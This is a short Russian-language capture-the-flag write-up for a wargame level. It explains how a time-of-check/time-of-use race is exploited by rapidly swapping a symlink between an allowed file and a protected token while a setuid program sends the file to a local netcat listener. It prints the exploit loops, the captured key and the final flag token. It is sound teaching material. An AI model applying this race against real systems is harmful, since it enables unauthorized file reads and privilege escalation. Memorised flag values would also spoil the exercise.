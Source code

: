 В папке у нас два файла. Токен и приложение level10

К Токену у нас нет доступа.

level10 требует два параметра, файл для отправки и адрес отправки.
При декомпиляции выяснилось что программа отправляет данные на порт 6969.
Так же, очевидно что данные отправлять нам нужно на локалхост (127.0.0.1), т.к. в локальной сети больше ничего у нас нет.
Как мы видим, у level10 и token есть права на чтение/запись для user flag10 
Мы попытаемся получить доступ к level10, но вместо этого откроем token
Для этого мы создадим символьную ссылку, которая будет почти мгновенно переключаться между level10 и token

while true; 
do ln -fs ~/level10 /tmp/aaa; 
ln -fs ~/token /tmp/aaa; 
done

Затем мы будем бесконечно вызывать ./level10

while true; 
do ./level10 /tmp/aaa 127.0.0.1; 
done

Начинаем слушать порт 6969

nc -lk 6969
...
...
...
...
PROFIT!

Среди кучи мусорных данных находим ключ!

.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.

su flag10
getflag

Check flag.Here is your token : feulo4b72j7edeahuete3no7c




